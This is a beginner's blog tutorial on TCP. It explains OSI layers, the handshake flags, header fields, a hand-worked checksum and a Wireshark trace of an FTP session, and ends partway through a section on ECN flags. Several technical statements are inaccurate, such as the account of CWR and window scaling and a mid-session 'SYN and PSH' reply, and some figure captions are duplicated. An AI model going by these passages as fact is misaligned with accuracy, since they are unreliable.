





I'm writing this post for two reasons. Recently, I took part in a university-level competition where we had to explain technical topics in a way that even non-tech people could understand. I picked TCP and UDP protocols because I’m really into cybersecurity and networking. Honestly, I didn’t expect much — I just wanted to challenge myself and share something I love. But alhamdulillah, I ended up becoming 1st in the competition!

Before the event, I went back and studied TCP deeply to make sure I could explain it simply. I tried to break things down the way I wish someone had explained it to me when I was learning. I still remember my early days — I had so many questions about how TCP works, but no teacher gave me a clear answer. So I searched online, read blogs, watched YouTube tutorials, and slowly figured it out myself.

That’s why I’m writing this post — to improve my own understanding and to help anyone like me, maybe a junior or someone just starting out. If you’re confused about TCP, I hope this will help you see it more clearly.

## Introduction

The well known protocol named TCP is one of the important protocol that really matter in the wide network of today. This protocol as a big play part
in the Internet in general, many protocols relay on TCP and many protocols designed in such way that without TCP they cannot run. The Important thin
is that the TCP is can seams so complex but the truth is the opposite, all we need to do is actually look on the session of some protocol that relay on TCP and after we learn theoretically how TCP works it's more easy to understand.

In my opinion, to understand really good how TCP work we need to lean as follow:
1. [TCP in the OSI and TCP-IP module.](#tcp-in-the-osi-and-tcp-ip-module)
2. [Basic TCP Functionality and basic flags like SYN, ACK, FIN.](#basic-tcp-functionality-and-basic-flags-like-syn-ack-fin)
3. [History of TCP in RFC's 793/3168/3540.](#history-of-tcp-in-rfcs-793-3168-3540)
4. [TCP segment structure.](#tcp-segment-structure)
5. [TCP session in real world.](#tcp-session-in-real-world)
6. [The special flags.](#the-special-flags)
7. [TCP attacks.](#tcp-attacks)

so let's get started

### TCP in the OSI and TCP-IP module

first of all TCP is in the Transport layer in the TCP/IP or IOS models. Brief refresh on OSI model, this is a seven layers model that are labeled from 1 through 7.

| Layer No.| Layer Name    |  Description  |
|----------|-------------|:------:|
| 7 |  Application | Consists of standard communication services and applications that everyone can use.  |
| 6 |    Presentation   |   Ensures that information is delivered to the receiving machine in a form that it can understand.  |
| 5 | Session |    Manages the connections and terminations between cooperating computers.  |
| 4 | Transport | Manages the transfer of data and assures that received and transmitted data are identical.  |
| 3 | Network | Manages data addressing and delivery between networks.   |
| 2 | Data Link | Handles the transfer of data across the network media. |
| 1 | Physical | Defines the characteristics of the network hardware.  |

Figure 1 OSI Model

The transport layer is where the TCP live, Layer 4 of the OSI model is named the transport layer and is responsible for message segmentation, acknowledgement, traffic control, and session multiplexing. The transport layer also has the ability to perform error detection and correction (resends), message reordering to ensure message sequence, and reliable message channel depending on the specific transport layer protocol used. The most common of the used transport layer protocols include the Transport Control Protocol (TCP) and User Datagram Protocol (UDP).

TCP is also on layer 3 of TCP/IP model, like the OSI model, the TCP/IP model is layered and is used in the same fashion as the OSI model but with fewer layers. As the modern Internet and most communications use the Internet Protocol (IP), the TCP/IP model is technically more in line with modern network implementations. As stated before, the layers within the TCP/IP model are considered less rigid then that of the OSI model, which basically means that many protocols implemented can be considered in grey areas between one area and another. The TCP/IP protocol suite (often referred to as the TCP/IP protocol) contains the same protocols referenced in the earlier OSI model sections. Figure
2 below shows a representation of the TCP/IP model:

| Layer No.| Layer Name    |  Description  |
|----------|-------------|:------:|
| 4        | Application | Consists of standard communication services and applications that everyone can use.  |
| 3        | Transport   | Manages the transfer of data and assures that received and transmitted data are identical.  |
| 2        | Network     | Manages data addressing and delivery between networks.   |
| 1        | Link        | Handles the transfer of data across the network media. |

Figure 2 TCP/IP Model

**Summary**

TCP is paced in transport layer in the TCP/IP and OSI model, this layer is about reliability of the connection the message that sent on that layer are called segments, this layer also responsible for acknowledgement, traffic control, and session multiplexing. will will see as we proceed in the article how it actually look like in real communication between tow endpoints.

### Basic TCP Functionality and basic flags like SYN ACK FIN

The functionality of the TCP working with two main important thing:
  - Approved every revived TCP segment, in that way the other side that get the approvement know that what he sent successfully arrived to the other side.
  - Numbering every segment with some sequence number before we sent it, in this way we can be shore that if the other side get the segments **not in the same order** as we sent it he will know what the order by that sequence number.

those are the main thing that TCP responsible to do, there is many application out there that working with TCP because of this functionality, but the is some application that doesn't and this can be because of millions reasons one of that is that the application itself for some reason do checking that the other side get the message.

The is three which is the most important flags in every session that you will see in every TCP session is the SYN, ACK and FIN. The SYN flag is used every time some endpoint want to start session with other endpoint, you can consider that like the following example:

some one named Bob go's down the street and see his friend John, so he start a conversation:

Bob: Hello! how do you do?

John: I'm good! and you?

Bob: Great!

*Figure 3 real life conversation*

In TCP it pretty much the same, one side ask the other that he want to start conversation with him and the other response with sort of ok and the first one do the same.

endpoint1: I wanna to SYN with you!

endpoint2: OK, I want to SYN with you too!

endpoint1: OK.

*Figure 4 TCP starting conversation*

In real session you will see that the most if not all segment message are sent with the flag ACK as active which means that we get what the other endpoint was sent and now we respond for it with new segment and approved the receivement with ACK flag.

As you go foreword in this article you will see that every flag is actually a bit in the segment message that represent by `1` or `0`, if the flag is active than we will see that the bit is set to `1`.

There is many flags out there but the other flag that we will see often is the FIN flag that stand for finish. If one side of opening conversation want to close the session, he is just send TCP segment message with activated FIN flag.

*Figure 5 TCP ending conversation*

Till now is so simple; to open a session all we need to do is to send **SYN** flag to the other side, throughout the conversation we always approved the receivement of the TCP segment from the other side with activated **ACK**, when we wanna close running session we just sent TCP segment with activated **FIN** flag and that's it.

**Summary**

So the functionality of TCP is always approved if we get the segment or not and numbering the TCP segment with sequence number.

### History of TCP in RFCs 793 3168 3540.

Before we start to get down to deep detail is better to know some history. The TCP was developed and designed in 1970s by two DARPA scientists - Vinton Cerf and Bob Kahn, persons most often called the fathers of the Internet.

Kahn worked on an existing project to establish a satellite packet network, and initiated a project to establish a ground-based radio packet network. These experiences convinced him of the need for development of an open-architecture network model, where any network could communicate with any other independent of individual hardware and software configuration. Kahn therefore set four goals for the design of what would become the **Transmission Control Protocol**

In the spring of 1973, Vinton Cerf joined Kahn on the project and together they wrote the RFC 675 and it was the first ever version of TCP and the real name of TCP was **Transmission Control Program**.

In 1981 DARPA scientists write another RFC number 793 and this was actually the first RFC of the **TRANSMISSION CONTROL PROTOCOL**, in that RFC we can find a structure of the TCP/IP model and the TCP implementations.

There is some more RFC that discuss the TCP and update the protocol, but I want to focus on only two RFCs 3168 and 3540. The original RFC 793 specified a six flags that we can activat in the TCP segment which is as follow:
 - URG
 - ACK
 - PSH
 - RST
 - SYN
 - FIN

 *I will explain them all later on*

 The RFCs 3168 and 3540 specifies together three bit flags named ECN which stand for Explicit Congestion Notification, the three flags are as follow:
  - ECN-none
  - CWR
  - ECE

  *Please remember those, we will come back to them later on*

  **Summary**

  The TCP at first was publish in RFC 793 and update later in RFC 3168 and RFC 3540, these are important because the bits that they specified, we will see as we go further in this article why we need these three bit flags, but for know I just want you to remember that there is six main flags and more three flags that responsible for congestion which is sort of collision that accrue in the network.

### TCP segment structure.

Ok, now we going to discuss on the really cool things in TCP segment. The structure of the TCP header look like follow:

*Figure 6 TCP header structure*

As you can see the length of the segment is 32 bit long, just please remember that the TCP segment is consists of bits so in reality it's structure of `0` and `1` that represented the values of the filed in the TCP header.

So let's check out the headers:

**Source ports** - The port number is really important because with that port we use to represent some service. In source port the sender generate some random port between 49152 to 65535 and that port are used through all the session between the two devices that communicate.

**Destination port** - The destination port is actually some service that represented by some port, as example HTTP represented by port 80 and FTP represented by port 21, so, if we want to use some service of some server like HTTP, we communicate with that server by using port 80 in the destination, in that way the receiver which is the server know that we want the HTTP service which is used to display some HTML page that the server has.

**Sequence number** - Sequence number or short SEQ is used to tracked down the data that as being send, so if we sent some data we count the data in the sequence field plus previous sequence number, as example if we had in the previous sequence field 1476 and the amount of data we sending now is 658 byte, the new sequence will be 1476 + 658 which is 2134, this mean that the sequence number always go greater through the session. please remember the rule of the sequence number as follow:
  - The sequence number is the number of **previously sent data** plus the **previously sent sequence number** to the other endpoint.

**Acknowledgement number** - This field used to acknowledge the data that we receive, in that way we can know what data as being receive by the other side and what data doesn't by the acknowledge number that the other side send us after he get some data from us, if he doesn't get the data we will don't received any acknowledge from him about that data so in this case we will send the data again until the other side will approve that he get the data. The counting of the acknowledgement goes by the following rule:
  - The acknowledgement number is the number of the **received data** plus the **received sequence number** we get from the other endpoint.

I want to stop you here to clear the **ACK** and **SEQ** numbers in the session. later on I will demonstrate that principle again and again because I want that you will have a good understanding how the things really works.

If you remember in the section of **Basic TCP Functionality** we saw some basic session like starting session in TCP and ending session, so, let's look now in deep what is really going on.

Let's say that John want to communicate with bob in some sort of protocol that using TCP.

1. To start the session John need to send **SYN** flag first because he want to synchronize with Bob about some values that will be used through the conversation. in the SEQ and ACK headers the values will be 0's because nothing of the rules that we saw earlier doesn't apply yet, we have no received data and no received sequence number, and we haven't sent any data and sequence number. because this is the first time we send message in TCP with flag SYN set, the message that send will be count with 1 phantom byte because of the SYN flag.

      
      ***Figure 7** first-SYN from John.*

2. Bob received the TCP segment message, he sees that the message contain flag of SYN in active form so he knows that John want to start conversation with him. Bob respond with two flags: **SYN** and **ACK**, the SYN is because he want to synchronize with John about some values like John did, and the ACK is because he want to inform John that he get the message. In the ACK number header Bob set it to 1 because as you remember the received data is 1 which is the phantom byte and the received sequence number is 0 so it's 1+0=1, so now when John will get this message he will new by the acknowledgement number that the previous message arrived successfully without data lost.

*Figure 8 SYN and ACK from Bob with acknowledgement number calculation.*

  3. John received the message and sees that Bob what to synchronize with him too, he also see the ACK flag active so he know that Bob actually approved the receivement, because Bob activated SYN flag John count it as phantom byte and add it to the sequence number which is 0, so in the message that John going send to Bob filled with ACK value of 1, and now because John sent previously some message that contain sequence number of 0 and phantom byte of 1 (because of the SYN) John now respond to Bob with TCP segment that contain sequence number of 1. in the flag area John activate only the ACK flag to approved that the segment that came from Bob successfully arrived.

*Figure 9 ACK from John with sequence of 1 and acknowledge of 1.*

we will see more of that ack and seq calculation further on.

**TCP header length** - This header also called **data offset**, this field are specified the entire length of the TCP segment, this include the previous headers, the source and destination port number, the acknowledgement number, the sequence number and so on. As you can see in the diagram in figure 6 this field in 4 bit long.

**Reserved** - The reserved is actually the gray field in the diagram in figure 6, it is 6 bit long that **reserved** for future use. It's actually just 3 bit and more 3 bit used for ECN as I specified earlier, but just keep in mind that there is 6 bit in that area and after that more 6 bit that used for flags.

**Flags** - The 6 bits after the reserved bits are used for flags, this flags is takes a big part in the tcp session. for each flag there is a scenario, to see each flag we going to use network analyzer like Wireshark, you can use TCPdump or NAST or any kind of analyzer you like, I'm using Wireshark for the examples. we going to see each flag but not in the same order as you saw in the TCP segment structure you'll understand why later on.

- **SYN** - as we already saw, the SYN flag used for starting conversation, in the TCP world the starting session end up always with three TCP segments that send back and forth between two parties, because of that this starting point called **Three Way Handshake**, you will see the three way handshake in every conversion that base on TCP.

- **ACK** - we saw that flag, and if you remember, that flag are resposible for approving that the TCP segment arrived successfully to the other endpoint, but keep in mind that if we get ACK flag activated in the TCP segment it doesn't mean that the data that arrived doesn't broken and if you ask what we done with broken data? for that we have the CRC (which is the checksum) and we will see that header as we  move on in this article.

- **FIN** - if you remember in the **Basic TCP Functionality** section we saw the FIN & ACK session, the FIN is responsible for closing some session, so if one side want to end the TCP session he send a FIN + ACK flags, the ACK is for approved that the previous TCP segment arrived and the FIN is to inporm the other endpoint that we wish to end the session, so the other endpoint will respond with ACK to approved that we get the FIN + ACK that we sent and he with also initiate a FIN + ACK message to end the session too, and then the first endpoint will respond with ACK and that it, the session is ending, just like we saw in figure 5.

- **PSH** - This flag is stand for push which mean that we want to push some data to the other endpoint, so, every time that the TCP contain some DATA in the upper layer, you will see this flag in active state. When the other site get this segment with active PSH he knows that there is a data and he transfer it to the application that expect to this data. We will see some example of that PSH as you keep reading.

- **RST** - This flag is stand for reset, we will see this flag when we have some issue in the connection, or when some side of the parties trying to kill the session, basically if the receiver see that flag he shouldn't send any message further in that session and discard any further message that he received from the other side that related to that session.

- **URG** - This flag stand for urgent, we use this flag to inform the other side that there is some urgent data that must be treatment immediately, there is more header that related to this flag and specified the urgent data.

**Window Size** - This header used for to inform the other endpoint that we can to buffer some specific amount of data, as example if we send to the other endpoint Window Size of 20000 byte, the other endpoint knows that we can get 20K of data before we sent to him an ACK on the 20K data. Let's assume that John sent to Bob TCP segment that contain 20K in the window side header, so Bob knows that he can send no more that 20K to John because John can handle only 20K at the time, so if Bob reach to this value he will stop from sending data until he will get some ACK from John about the data Bob was sent, only after that Bob will keep to send more data. Please remember that this is not mean that if John tels Bob about 20K that Bob immediately send 20K stop until the ACK and send again 20K and stop and so on, it's just let's Bob knows that he can only handle 20K at the time. We will see in the examples that after two side synchronize they may send small pieces of data as a start, only after that the amount of data may be grow before some ACK will received.

**Checksum** - I think that this header is very cool although this is so old algorithm, this is the way to find an error on the TCP segments, the receiver will check the checksum value against the following calculation, if the value is not the same as the checksum value the TCP segment are discard. The calculation are done as follow:
  - **Pseudo Header** which is some headers from the IP packets that are include in the checksum calculation. The header are the **Source address** and **destination address** from the IP packet with **Reserved** filed of 8 bit and **Protocol Type** from IP packet which always be 6 because of the TCP, and **TCP Segment Length**.  

***Figure 10** Pseudo Header.*

  - **Source Port** from the TCP segment.
  - **Destination Port** from the TCP segment.
  - **Sequence number**
  - **Acknowledgement number**
  - **Data Offset** as we discussed, it also called TCP header length
  - **Reserved** field from the TCP segment
  - **Flags** bits.
  - **Window Size**
  - **Option** we will discuss this field later in the article.

  
  ***Figure 11** TCP header for checksum calculation.*

  After that we take the all field and add it together, the score need to be in length of 4 digits, and after we put all together we calculate the opposite of what we get, in HEX the calculation will be 15 - n = x, the `x` is the new number we need. We can also calculated as following:
  - converted the Hex value to binary.
  - change every bit to the opposite which mean `0` become `1` and `1` become `0`.

  after the calculation, the value we get in the result this is the checksum value.

  let's do real check for example:
  
  ***Figure 12** Checksum calculation using Wireshark.*

As you can see the packet that I chose is from some session between my default getaway to one of my hosts. The checksum number is `0x2aa1`, so let's check it our self and find the if the checksum we get is the same checksum we calculate.

So we need to calculate the pseudo, the source address is 10.0.0.138 which in Hex is `0a00` and `008a`, the destination address is 10.0.0.6 which is `0a00` and `0006` now we have 8 reserved bit which in Hex is **00** and the protocol type is also 8 bit so we have **06** and together it's `0006`, after that we have TCP segment length in my case it's 32 bytes so convert that decimal it to Hex we get 20 so we will treat it as `0020`.
The source port is 40991 which is `a01f` and the destination port is 2869 in Hex is `0b35`, the sequence number `6d11`, `6aff`, and the acknowledge number is `2c1e` `a2dc`, the data offset, reserved and flags together is `8010`, the window size is `05b4` and Option is `0101`, `080a`, `024c`, `cebf`, `006a`, `0e03`.

Now lets calculate all together:

`0a00 + 008a + 0a00 + 0006 + 0006 + 0020 + a01f + 0b35 + 6d11 + 6aff + 2c1e + a2dc + 8010 + 05b4 + 0101 + 080a + 024c + cebf + 006a + 0e03 = 3D55B`

Remember the score is always 4 digits so let's calculate:

`0003 + D55B = D55E`

Now let's calculate what is the opposite number of **D55E**, we can to that in binary as follow: 
`1101 0101 0101 1110` 
`-------------------` 
`0010 1010 1010 0001`
In Hex is **2AA1**.
We also can to the following calculation: 
15 - e = 1 
15 - 5 = a 
15 - 5 = a 
15 - d = 2 

Remember what was the checksum?? yes! `0x2aa1` so the checksum test for this segment pass successfully!

**Urgent Pointer** - We will see the urgent pointer when the URG flag is active, as I mentioned earlier when one of the sides sent urgent message in that filed we specified what is the length of the urgent data from the start point of the data field. As example let's open FTP connection to transfer some file, I using 3cdeamon for the FTP server in one of my hosts, and on anouther host I using CMD.

In one PC I opened CMD and type `ftp`, `open 10.0.0.9` and type my user and password and start to copy to my host the test.mp3.

***Figure 13** opening FTP session in command line.*

After the transfer as start I killed it with `ctrl+c` which is activate the **URG** flag.

***Figure 14** Killing the FTP session.*

On the other PC you can see that the session has being stopped.

_**Figure 15** FTP session has stopped._

Now, if we look on the captured file we will see some frame that contain in the TCP segment a URG flag (I have done some filtering so this is why you see only one packet).

_**Figure 15** FTP session has stopped._

As you can see URG flag is set, if we look at the data we can find a Hex of `0xF2` which is in decimal 242 which is the DATA MARK that specified by [RFC 854](https://tools.ietf.org/html/rfc854) and it's the **TCP Urgent notification**.

***Figure 16** TCP Urgent notification.*

**Option** - This field contain more optional stuff, that mean the we will see that field typically in the synchronization of two parties, we going to see the real important field in the Option header but ceep in mind that there is more stuff going on.
  - **Maximum Segment Size** - Typically this field is 4 byte length and it responsible to specified the Maximum Segment Size or more shortly MMS which is the length of the data payload. We will see that MSS typically in the three way handshake, when some site of the parties get this value he knows that the other side can handle and process maximum of data size as specified in the value of the MSS header, as example if John sent to Bob MSS of 1460, Bob knows that in every message that he send to John he can send only up to 1460 byte in each TCP segment.
  - **SACK-permitted** - This is short for **Selective ACKknowledgment**, this field is responsible for case of lost data in the TCP connections, if we lost some packets we will announce to the other endpoint of the lost by the SACK field. In the three way handshake we will see that the two side agree to use SACK if they support it. if you want to know exactly what going on in the SACK filed please refer to [this link](http://packetlife.net/blog/2010/jun/17/tcp-selective-acknowledgments-sack/).
  - **Timestamps** - This field are responsible for two value **TSval** which is Timestamp Value field and is contain the clock value of the timestamp of the TCP that going to be send to the other endpoint. The **TSecr** which stand for Timestamp Echo Reply field is only valid when ACK flag is set and it's echo the TSval value we get from the other endpoint, the propose for timestamps is to taking time measurements. You can read more about the if [RFC 7323](https://tools.ietf.org/html/rfc7323#section-3)
  - **Window Scale** - This option is used to increase the maximum window size,
  as you remember the window size value is the way that one side tells to the other what it the maximum byte size that he can handle before we get ACK from him, the Window Scale allow us to increase the window size up to 1 gigabyte if it posible or to decrease the window size value if some congestion had being sense. You can read more about it in [RFC 1323](https://tools.ietf.org/html/rfc1323#section-2)

**Data** - This is the actual payload in the TCP segment, this is the data thet one side want to transfer to the other endpoint.

**Summary**
The TCP segment structure can be complex to understanding but if you get down to the real detail you will get it, I guarantee you!

Let's check what really going on in the realty with some real session.

### TCP session in real world.

In this section I'll demonstrate how things are really going on, I have two endpoint so let's called theme John and Bob. I'm going to use Wireshark and we going to open FTP connection between the two, just remember that FTP session works with two ports, 21 for control session and 20 for data session.

If you want you can downloads the session [here](/assets/downloads/FTP session with ports 21 and 20.pcapng).

So John IP address is 10.0.0.8 and Bob IP address is 10.0.0.5, John want to connect Bob and copy from Bob to his machine some file named test.zip (you can actualy download that file from the sniffer captured file LOL).

***Figure 17** John and Bob.*

John send the first TCP segment to synchronize with Bob, you can see that the source port is 49738 and the destination port is 21 which is the FTP service for control connection, the sequence number is 0 because we doesn't ever sent any data and the acknowledgement number is 0 also. At the flag area you can see a SYN activated which mean that John want to start the three way handshake for TCP base connection, the window size value is 8192 which mean that John tells Bob he can handle only 8k at the same time we will see how that goes on the session.

***Figure 18** Wireshark connection - TCP ports 21 and 20*

The checksum is looking good so it's great (you can do the calculation the I show you earlier), in the urgent point the value is 0 becouse we have no urgent data at this moment.

If you expand the option area you will see some value like the MSS that set on 1460 byte which mean that John is willing to get TCP segment data with the maximum of 1460 byte per segment.

So the starting session look as follow:

***Figure 19** First SYN - Three Way Handshake*

Please remember that because the SYN flag is active this is why we have the 1 phantom bit, so Bob will count it on his response.  

Now Bob going to respond with SYN + ACK flag active and in the acknowledgement number he will specifies `1` because he get sequence of 0 and data of 1 which is the phantom byte, on the sequence number he will specifies `0`.

***Figure 20** Second SYN with ACK - Three Way Handshake*

Let's look on the captured file, we can see the source port is 21 and the destination is 49738 and the ACK is set to 1 as we expected, Bob activated the SYN and ACK flags and the window size value is also 8K like John, but as you can see the checksum is bed, it should be `0x442e` but it's `0x1433`,

***Figure 20** Wireshark second SYN with ACK*

This is happens because of TCP checksum offload, please notice that this error occurs only when Bob packets, well this is because the capture file was taken from Bob machine, so throughout the conversation you will see such an errors only from Bob.

The key here is that this happens for packets transmitted by the machine doing the capture, not packets received by the machine doing the capture.

When transmitting a segment the OS fills out every field in the TCP segment in the memory, the checksum field is not computed by the OS, it contains whatever data there was before in that memory location.When we capture with Wireshark, it's capture the contents of this memory location which contains a TCP segment without a computed checksum it's have a random data. When the OS sends the segment to the NIC, the NIC hardware then performs the checksum computation, and puts the computed checksum to the particular TCP segment field. This checksum is never seen by the OS or Wireshark. So this is the reason for the errors.

If you wanna check yourself, just go to this [link](https://wiki.wireshark.org/TCP_Checksum_Verification), you also can remove the TCP check by Wireshark to ignore such an error.

Let's go to the next step in the three way handshake, now John going to approved that he get the TCP segment from Bob and this is close up the TCP three way handshake.

***Figure 21** Last ACK - Three Way Handshake*

As you can see the ACK is equal to `1` because John get sequence number of `0` and `1` phantom byte that count as data, the sequence number now is equal to `1` as well because John sent in the passed sequence number of `0` plus some `1` phantom byte.

***Figure 22** Wireshark last ACK*

The session continue with Bob PSH and ACK flags which tells us that on the TCP payload we will find some data that related to FTP (which in our case Bob tell to John that the service are ready for new user). Meanwhile John get login screen so he need to type some user name.

_**Figure 23** Login screen._

Please notice that Bob sent to John TCP segment with SEQ that equal to 1 and data bytes size of 42.

John PC respond with ACK about the data that arravied and send another TCP segment that contain a ACK and PSH with data that contain the username guy.

***Figure 24** ACK and PSH with username.*

As you can see the acknowledgement number from John is 43 because the received sequence number is 1 plus the received data in byte is 42, the sequence number however remains the same because John sent sequence number of 1 and data of 0.

***Figure 25** Sequence and acknowledgement.*

Now Bob response with SYN and PSH active, the ACK is 11 because the received data was 10 and the received sequence was 1, Bob sequence number is 43 related to the sequence number that was sent before bluse the data that was 0.

_**Figure 26** Bob respond again._

John response with sequence of 11 because he already sent sequence of 1 and 10 data bytes, the acknowledgement number is 76 because John got a data bytes of 33 and sequence number of 43.

_**Figure 27** Sequence of 11 and acknowledgement of 76._

John send more TCP segment with the same values but with data bytes of 13 with password for the FTP session, please note that this is why FTP isn't secure, the password pass over the net in clear text form.

_**Figure 28** FTP password in clear text._

Please remember that this time John send again data so is a PSH plus ACK.

_**Figure 28** TCP session continue._

The acknowledgement and sequence numbers calculate again and Bob send this time ACK of 11 and SEQ of 76, the data bytes are 20 and Bob actually approved that John log in and in the flags are PSH and ACK.

_**Figure 29** Bob respond again._

The acknowledgement that John specifies is 96 and the sequence is 24, this is just ACK so there is no data in this TCP segment. the other packet contain some data in upper layer.  

_**Figure 30** Two TCP segments from John._

So the session will go in that way, just remember the rules we saw earlier:
- The sequence number is the number of **previously sent data** plus the **previously sent sequence number** to the other endpoint.
- The acknowledgement number is the number of the **received data** plus the **received sequence number** we get from the other endpoint.

If we make some TCP session that pass through big amount of data we will see the window size and the window scale in action.

As the session continue you will see the test.zip file transfer to John from Bob, for now I want to jump ahead to packet number 436. In this TCP segment we will see the FIN flag in active form from Bob to John, the flags that are active are FIN, PSH and ACK, the TCP payload is 40 bytes, the sequence number is 234 and acknowledgement number is 67.

_**Figure 31** FIN flag._

The follow TCP segment from John contain just ACK and immediately John send also FIN and ACK segment. The first segment contain values of 275 at ACK number because we got sequence of 234 and more data byte of 40 and we also have phantom byte to count because this is the first the FIN flag is active from Bob side. The sequence number is 67 because of packet 435 that contain sequence number of 67 with data of 0 bytes.

_**Figure 32** FIN flag is the phantom this time._

The second packets stay with the same value and the flags as we said are FIN with ACK active.

_**Figure 33** FIN flag is the phantom this time._

Bob respose with ACK and that's it the session end.

_**Figure 34** The ending ACK._

Let's look at the diagram to see the numbers in the ending session.

_**Figure 34** TCP ending session._

**Summary**

The TCP session contain two rules that we saw every time in the sequence and acknowledge number, the three way handshake is the starting point at TCP session that contain 3 TCP segments, the ending session contain 4 TCP segments that contian FIN flag that stand for finish.

### The special flags.

If you remember we talk earlier about three flags that are called Explicit Congestion Notification. In TCP word if the two endpoint sense some congestion in the network which mean some sort of load that cause drop of TCP segments, the endpoint that sense the congestion will send notification to the other endpoint that and and the two endpoint will decrease the traffic by using window scale.
The problem with that operation is that we always need to resend some packets that was lost during the TCP session. To migrate that issue we use the ECN flags.

So we have three flags as follow:
  - NS - That is the ECN-nonce bit
  - CWR - stand for Congestion Window Reduced, if the endpoint got a ECE flag he will response with CWR flag set to tell the other side that he going to use window scale to decrease the traffic
  - ECE - ECE-Echo, this bit used to update the other side that some congestion occur.

Let's say that one side send 3 packets to the other side.

_**Figure 35** TCP ending session._

if some congestion was occur the router in the middle discard the packets.

_**Figure 36** TCP ending session._

So the receiver response with ACK that approved only the first arrived TCP segment in our case, and in the SACK filed he specifies the segments that arrived after the first one, in our case it's segment 3 so the sender knows that the segment 2 is missing and lost during the transport, so the sender will send the segments again.

_**Figure 37** The receiver approved for segment 1 and 3._

_**Figure 38** The receiver resend segment 2._

However if the router in the middle support in ECN he will set the ECN flags in the IP packets, this flags is part of DSCP (DiffServ) that used for Quality Of Service. You may ask why the flags set in the IP packet and not in the TCP segment, so please remember that the router working at most at layer 3 and doesn't open the packets to see the TCP segment, so the flags set must be done in layer 3, so we have two bits that are called ECN-Capable Transport as follow:

_**Figure 39** IP packets headers._

 - Not-ECT - If the two bits are 0's this mean that there is no support in ECN.
 - ECT - If the one of the bits are 1 this mean that there is support in ECN.
 - CE - If both bits set to 1 it's mean that congestion occur.

 _**Figure 40** ECN bits._

To summaries all thing together let's look what really happens when congestion occur:
- The sender send some packets to the other endpoint with ECN Capable set in IP packets .

_**Figure 41** ECN capable._

- An ECN-capable router detects impending congestion, is usual case the router will start to drop packets, but in our case the router that an ECT codepoint is set in the packet so instead of dropping the packet, the router chooses to set the CE codepoint in the IP header and forwards the packet.

_**Figure 42** The router inform about the congestion._

- The receiver receives the packet with the CE codepoint set, and sets the ECN-Echo flag in its next TCP ACK sent to the sender.

_**Figure 43** ECN-Echo flag is set._

- The sender receives the TCP ACK with ECN-Echo set, and reacts to the congestion as if a packet had been dropped. that mean he will decrease the window size during the session.

_**Figure 44** The sender going to decrease the  window size._

- So the sender sets the CWR flag in the TCP header of the next packet sent to the receiver to acknowledge its receipt of and reaction to the ECN-Echo flag.

In some special cases the the ECN flags in the IP packets can be override by unmarked or mark some value in the DiffServ through the way of packet traveling, so in that case the using of ECN-nonce is coming in, it enables the receiver to demonstrate to the sender that segments being acknowledged were received unmarked. The sender then can verify the nonce sum returned by the receiver to ensure that congestion indications in the form of marked (or dropped) packets are not being concealed

